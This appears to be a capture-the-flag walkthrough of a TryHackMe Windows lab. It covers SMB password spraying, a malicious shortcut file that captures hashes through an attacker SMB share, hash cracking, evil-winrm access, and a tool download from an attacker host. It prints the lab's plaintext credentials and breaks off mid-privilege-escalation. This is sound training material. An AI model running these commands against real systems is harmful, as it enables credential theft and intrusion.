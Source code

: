 # [Set](https://tryhackme.com/room/set)

## Once again you find yourself on the internal network of the Windcorp Corporation.

# Set

## Story. Once again you find yourself on the internal network of the Windcorp Corporation. This tasted so good last time you were there, you came back for more. However, they managed to secure the Domain Controller this time, so you need to find another server and on your first scan discovered "Set". Set is used as a platform for developers and has had some problems in the recent past. They had to reset a lot of users and restore backups (maybe you were not the only hacker on their network?). So they decided to make sure all users used proper passwords and closed of some of the loose policies. Can you still find a way in? Are some user more privileged than others? Or some more sloppy? And maybe you need to think outside the box a little bit to circumvent their new security controls…

### Flag 1

1. ...

```bash
nmap <TARGET_IP>
```

[SCREEN01]

2. ...

```bash
curl -v -k https://<TARGET_IP>
echo "<TARGET_IP> set.windcorp.thm" >> /etc/hosts
```

[SCREEN02]

3. Examine the search.js function in `https://set.windcorp.thm/` source ...

```bash
curl -k https://set.windcorp.thm/assets/data/users.xml
```

4. Get usernames ...

```bash
curl -k https://set.windcorp.thm/assets/data/users.xml | grep -o '<email>[^<]*</email>' | sed 's/<[^>]*>//g' | cut -d'@' -f1 | sort | uniq > usernames.txt
```

5. ...
   - `myrtleowe:Passw@rd`

```bash
msfconsole
use auxiliary/scanner/smb/smb_login
set RHOSTS <TARGET_IP>
set USER_FILE usernames.txt
set PASS_FILE /root/Tools/wordlists/SecLists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt
run
creds
```

[SCREEN03]

6. ...

```bash
smbclient -L //<TARGET_IP> -U myrtleowe
smbclient //<TARGET_IP>/Files -U myrtleowe
ls
get Info.txt
```

[SCREEN04]

7. First flag ...

```bash
cat Info.txt
```

[SCREEN05]

---

### Flag 2

1. Download `https://www.mamachine.org/mslink/index.en.html` ...

```bash
./mslink_v1.3.sh -l test -n shortcut -i \\\\<ATTACKER_IP>\\share -o shortcut.lnk
zip shortcut.zip shortcut.lnk
sudo python3 /opt/impacket/examples/smbserver.py -smb2support share .
```

2. ...

```bash
smbclient //<TARGET_IP>/Files -U myrtleowe
put shortcut.zip
```

[SCREEN06]

3. ...
   - `MichelleWat:!!!MICKEYmouse`

```bash
john hash --wordlist=/root/Tools/wordlists/rockyou.txt
```

[SCREEN07]

4. ...

```bash
evil-winrm -i <TARGET_IP> -u MichelleWat -p '!!!MICKEYmouse'
cd ../Desktop
dir
more Flag2.txt
```

[SCREEN08]

---

### Flag 3

1. There are port 49713 and 2805 with pid 5000 ...

```bash
netstat -ao
```

[SCREEN09]

2. ...

```bash
Get-Process -Id 5000
```

[SCREEN10]

3. ...

```bash
Get-ChildItem C:\ -recurse -ErrorAction SilentlyContinue | Where-Object {$_.Name -match "Veeam.One.Agent"}
Get-Item 'C:\Program Files\Veeam\Veeam ONE\Veeam ONE Agent\Veeam.One.Agent.Service.exe' | Format-List *
```

[SCREEN11]

4. ...

```bash
wget https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe
python -m SimpleHTTPServer
```

```bash
Invoke-WebRequest -Uri http://<ATTACKER_IP>:8000/plink.exe -Outfile plink.exe
```
